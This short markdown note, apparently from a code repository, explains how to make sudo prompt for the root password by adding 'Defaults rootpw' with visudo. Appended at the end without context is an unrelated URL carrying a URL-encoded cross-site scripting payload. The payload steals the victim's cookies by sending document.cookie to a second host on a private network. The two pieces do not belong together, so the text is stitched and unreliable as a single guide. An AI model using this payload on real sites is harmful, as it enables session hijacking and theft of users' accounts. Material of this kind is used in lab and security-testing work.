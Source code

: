# Sudo User Password to Root Password

How to edit the sudoers file to make 'sudo' prompt you to enter the root password instead of the user password:


```bash
edit sudoers with 'sudo visudo'

add 'Defaults rootpw' at the top
```
'
http://192.168.178.35/xss/xss.php?xss=%3Cscript%3Edocument.write(%27%3Cimg+src%3D%22http%3A%2F%2F192.168.178.43%3A8080%2F%3Fcookie%3D%27+%2B+document.cookie+%2B+%27%22+%2F%3E%27)%3C%2Fscript%3E+
